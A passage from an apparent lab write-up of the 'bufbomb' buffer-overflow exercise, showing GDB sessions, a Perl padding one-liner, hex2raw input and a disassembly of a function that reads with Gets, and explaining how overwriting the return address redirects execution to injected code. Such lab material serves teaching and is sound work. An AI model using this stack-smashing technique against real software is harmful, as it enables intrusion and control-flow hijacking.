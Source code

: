 Afterwards, use GDB again and type this command:

> gdb bufbomb<br />
> (gdb) b annyeong<br />
> Breakpoint 1 at 0x8048bf3<br />
> (gdb) run -u eksperimen < raw0<br />
> Userid: eksperimen<br />
> Cookie: 0x1d9ed824<br />
> Masukkan input:<br />
> Breakpoint 1, 0x08048bf3 in annyeong ()<br />
> (gdb) c<br />
> Continuing.<br />
> NO: Hi 0x0<br />
> [Inferior 1 (process 4396) exited normally]<br />

Why do we fail? It's fail as from out string input we gave the return address of procedure **annyeong()** after the free 52 characters. The effect is after the program was finished in reading that 52 characters, it won't execute our code injection, yet directly return to procedure **annyeong()**. So, the solution is we've to change the contents of block after our 52 characters so that the program can read our code injection. Need to remember that from our code injection we had already given a command that after changing the contents of 2 memory addresses, we should directly insert he address of procedure **annyeong()** which will make the program redirects the flow into procedure **annyeong()** after the function **ah_choo()** was finished.

Then, where's the address of our code injection? The location is one block above the block containing that return address.

Quit from GDB and type this command:

> * perl -e 'print "61 "x32, "62 "x19' > hex0<br />
> * ./hex2raw < hex0 > raw0<br />

Then go back into GDB and use this command:

> (gdb) b ah_choo<br />
> Breakpoint 1 at 0x8048cec<br />
> (gdb) run -u eksperimen < raw0<br />
> Userid: eksperimen<br />
> Cookie: 0x1d9ed824<br />
> Masukkan input:<br />
> Breakpoint 1, 0x08048cec in ah_choo ()<br />

Then look at the contents of function **ah_choo()**.

> (gdb) disas<br />

**Dump of assembler code for function ah_choo:**

Address | Operation | Elements in operation
--- | --- | ---
=> 0x08048cec <+0>: | sub  |  $0x4c, %esp
0x08048cef <+3>:  |  lea   | 0x18(%esp), %eax
0x08048cf3 <+7>:  |  mov   | %eax, (%esp)
0x08048cf6 <+10>: |   call |  0x8048c56 <Gets>
0x08048cfb <+15>: |   mov  |  $0x1, %eax
0x08048d00 <+20>: |   add  |  $0x4c, %esp
0x08048d03 <+23>: |   ret  |
